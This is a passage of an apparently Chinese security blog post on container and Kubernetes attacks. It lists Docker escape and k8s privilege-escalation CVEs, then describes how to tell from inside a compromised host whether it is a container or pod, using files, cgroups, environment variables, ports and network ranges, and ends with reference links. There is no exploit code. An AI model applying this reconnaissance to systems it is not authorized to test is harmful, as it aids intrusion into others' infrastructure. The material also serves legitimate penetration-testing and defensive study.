Docker 逃逸如 CVE-2019-5736，CVE-2019-14271,CVE-2020-15257

k8s 提权到接管集群的如 CVE-2018-1002105,CVE-2020-8558

## [探测](#toc__10)

### [是否在容器环境中](#toc__11)

-   根目录下/.dockerenv 文件存在即 docker 环境
-   /proc/1/cgroup 内若包含 docker 或 kube 字符串则是在 docker 环境或 k8s pod 之中

[](https://storage.tttang.com/media/attachment/2022/03/11/3dbb6be9-b953-4df0-a5f6-daea2463b25f.png)

-   没有常见命令

[](https://storage.tttang.com/media/attachment/2022/03/12/9685f50a-c6e0-4818-bc51-4c95274c478d.png)

-   查看环境变量中是否有 k8s 或者 docker 字符串

[](https://storage.tttang.com/media/attachment/2022/03/12/6ec8d202-8838-4528-a3a3-1f16fa9f1815.png)

-   查看端口开放情况（netstat -anp），如果开放了一些特殊端口如 6443、8080（api server）,2379（etcd）,10250、10255（kubelet），10256（kube-proxy）那么可以初步判定为是在 k8s 环境中的一台 Node 或者 master，这个方法亦可用于端口扫描探测目标主机是否为 k8s 集群中的机器
-   查看当前网段，k8s 中 Flannel 网络插件默认使用 10.244.0.0/16 网络，Calico 默认使用 192.168.0.0/16 网络，如果出现在这些网段中（特别是 10.244 网段）那么可以初步判断为集群中的一个 pod。pod 里面没有命令很少，可以通过 hostname -I(大写 i) 来查看 ip 地址

[](https://storage.tttang.com/media/attachment/2022/03/12/f004929e-8c2e-4c91-b00c-f16727b33eb5.png)

## [0x03 ref](#toc_0x03-ref)

[https://developer.aliyun.com/article/765449#slide-5](https://developer.aliyun.com/article/765449#slide-5)

[https://xz.aliyun.com/t/4276#toc-4](https://xz.aliyun.com/t/4276#toc-4)

[https://tttang.com/archive/1389/](https://tttang.com/archive/1389/)

[https://payloads.online/archivers/2021-07-20/1/](https://payloads.online/archivers/2021-07-20/1/)

[https://www.freebuf.com/articles/database/316788.html](https://www.freebuf.com/articles/database/316788.html)

[https://www.freebuf.com/vuls/196993.html](https://www.freebuf.com/vuls/196993.html)

[https://github.com/pen4uin/cloud-native-security](https://github.com/pen4uin/cloud-native-security)

[https://www.updateweb.cn/zwfec/item-367.html](https://www.updateweb.cn/zwfec/item-367.html)

[https://kuboard.cn/learning/](https://kuboard.cn/learning/)(非常好的中文教程)

[https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/](https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/)(k8s 官方教程，有交互式操作界面，稍微有点不好的是有些地方没有中文)
